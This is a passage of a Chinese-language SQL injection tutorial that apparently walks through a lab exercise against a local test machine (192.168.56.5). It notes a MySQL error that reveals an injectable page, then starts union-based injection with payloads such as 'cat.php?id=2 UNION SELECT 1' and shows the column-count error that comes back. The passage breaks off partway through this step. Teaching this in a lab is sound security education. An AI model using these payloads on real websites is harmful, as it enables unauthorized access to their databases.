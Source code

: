     出现此类错误即说明该网站存在SQL注入漏洞。
    
    这里还可看到数据库类型为MySQL。

2. 获取SQL数据库相关信息
    1. 检查是否支持union查询

        以ruxcon页面：`http://192.168.56.5/cat.php?id=2`为例，该页面包含一张hacker图片：

        ![](img/ruxcon.png)

        ```
        SELECT * FROM articles WHERE id=3 UNION SELECT ...
        ```
        从`1`开始，依次尝试`1`，`1,2`，`1,2,3`...

        URL：`http://192.168.56.5/cat.php?id=2 UNION SELECT 1`

        结果显示：
        ```
        The used SELECT statements have a different number of columns
        ```

        ![](img/union_1.png)
